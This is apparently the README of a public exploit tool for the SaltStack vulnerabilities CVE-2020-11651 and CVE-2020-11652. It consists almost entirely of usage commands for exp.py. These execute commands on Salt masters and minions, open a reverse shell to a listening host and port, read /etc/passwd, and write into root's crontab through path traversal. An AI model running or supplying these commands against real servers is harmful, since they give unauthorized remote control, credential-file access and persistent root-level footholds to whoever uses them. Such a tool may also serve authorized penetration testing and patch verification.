 # SaltStack-Exp
CVE-2020-11651
CVE-2020-11652

#### Exec-Master:
```
python exp.py --exec-choose master --exec-cmd "whoami"
```
#### Exec-Minions:
```
python exp.py --exec-choose minions --exec-cmd "whoami"
```
#### GetShell:
```
python exp.py --shell-LHOST 8.8.8.8 --shell-LPORT 4444
```

#### ReadFile:
```
python exp.py --read /etc/passwd
```
#### UploadFile:
```
python exp.py --upload-src "/test/root" --upload-dest "../../../../../../../../var/spool/cron/crontabs/root"
```


From :https://github.com/bravery9/SaltStack-Exp